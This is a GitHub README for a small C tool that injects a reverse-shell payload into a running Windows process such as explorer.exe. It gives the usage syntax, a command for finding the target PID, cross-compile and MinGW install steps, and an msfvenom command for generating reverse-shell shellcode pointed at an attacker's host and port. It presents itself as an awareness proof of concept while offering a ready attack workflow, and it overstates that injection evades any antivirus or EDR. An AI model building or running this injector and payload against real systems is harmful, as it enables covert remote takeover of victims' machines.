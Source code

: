 
<div>
    <img src="https://img.shields.io/badge/Language%20-C-black.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tools%20-Windows API-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows 7..11-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Project%20-Malware | Process Injection-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool | Cybersecurity Awareness%20-teste?style=flat-square style="max-width: 100%;">
</div>


# Simple Windows malware | Process injection

Simple payload for hacking Windows and process injection. Using the windows API for the C programming language. 

* **Windows API:** https://learn.microsoft.com/pt-br/windows/win32/apiindex/windows-api-list

### **Process injection**

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/60f51a38-4e3a-421b-9dcc-2eb4187484cf)


Process injection is an evasive attack method that hackers use to gain access to the system by executing their malicious code in the address space of a legitimate process, hiding the malware and often not generating any suspicion about an attacker on the system, as the malicious code becomes difficult to detect. Process injections also evade detection by any antivirus, application control, or endpoint detection and response systems running on the network because the infected processes are viewed as legitimate. 

Hackers usually use less suspicious or more important system processes such as: svchost.exe, rundll32.exe or even explorer.exe.

* **Explorer_injection.exe:** Performs a shell connection on the reverse target computer at the execution address of the explorer.exe process. 

#

* **How to find the PID of a running windows process:**

![Screenshot_20231107_182320](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/2e262abf-32d6-448a-bbfb-c5c9f6922df8)


```bash
  tasklist | findstr <process name>
```
=> CMD syntax: `Process_injection.exe <PID>`

# Compiling

* **Compiling the code (Linux):** 
```bash 
x86_64-w64-mingw32-gcc code.c -o code -static-libgcc
```
* **Compiling the code (Windows):**
```bash
gcc code.c -o code
```

# MinGW-w64 Instalation:

**Debian/Ubuntu OS:** 
```bash 
sudo apt install mingw-w64-x86-64 (64-bits)
or
sudo apt install mingw-w64 (32-bits)
```

**Fedora**:
```bash 
sudo dnf install mingw64-gcc
```

**Arch Linux**:
```bash 
sudo pacman -S mingw-w64-gcc
```

=> More Info: https://www.mingw-w64.org/

=> Shellcode generator: `msfvenom -p <Payload> LHOST=<IP> LPORT=<LOCAL PORT> --platform windows --arch <x64/x86> -f c`

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
